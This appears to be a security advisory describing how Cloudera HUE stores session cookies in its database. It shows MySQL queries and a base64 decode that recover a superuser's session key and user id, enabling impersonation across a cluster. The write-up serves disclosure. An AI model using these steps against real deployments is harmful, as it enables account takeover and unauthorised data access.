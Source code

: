 Session cookies stored in the database
======================================

Description
-----------
**User session cookies are stored** in the database. Combined with the vulnerability related to [configuration file which is world readable](../Configuration%20file%20world%20readable/), it is possible to **spoof a user across the entire cluster launching jobs and browsing the datalake**, without having to crack password hashes.

Cookies are stored in the `django_session` table: `session_key` is the **cookie** and `session_data` holds the **user id with some other information encoded in base64.**
The following example shows how to **find a valid session cookie for a specific user (id=1).**
```
mysql> select * from django_session limit 1 \G ;
*************************** 1. row ***************************
 session_key: m67424cld61xe8960moyjj1esjqfiyvj
session_data: NGY2MzJhYjkxM2M5ZTU4ZDk0YjNjNjc4ODI1NmVkMzExMTI3YTc5NDp7Il9hdXRoX3VzZXJfYmFja2VuZCI6ImRlc2t0b3AuYXV0aC5iYWNrZW5kLkFsbG93Rmlyc3RVc2VyRGphbmdvQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOjF9
 expire_date: 2017-01-03 07:00:07
```
```
$ echo NGY2MzJhYjkxM2M5ZTU4ZDk0YjNjNjc4ODI1NmVkMzExMTI3YTc5NDp7Il9hdXRoX3VzZXJfYmFja2VuZCI6ImRlc2t0b3AuYXV0aC5iYWNrZW5kLkFsbG93Rmlyc3RVc2VyRGphbmdvQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOjF9 | base64 -d
4f632ab913c9e58d94b3c6788256ed311127a794:{"_auth_user_backend":"desktop.auth.backend.AllowFirstUserDjangoBackend","_auth_user_id":1}
```
```
mysql> select * from auth_user where id = 1 \G ;
*************************** 1. row ***************************
          id: 1
    password: pbkdf2_sha256$12000$dtbAVcdT4Ph9$4QMdEvX5Z0b5NFcPb69L50/cRo2ARFg/WCtk3/dcPw0=
  last_login: 2016-12-20 07:00:07
is_superuser: 1
    username: cloudera
  first_name: 
   last_name: 
       email: noreply@cloudera.com
    is_staff: 1
   is_active: 1
 date_joined: 2015-11-18 13:08:31
```
  
  
References
----------
  * [Issue on the HUE repository](https://github.com/cloudera/hue/issues/465)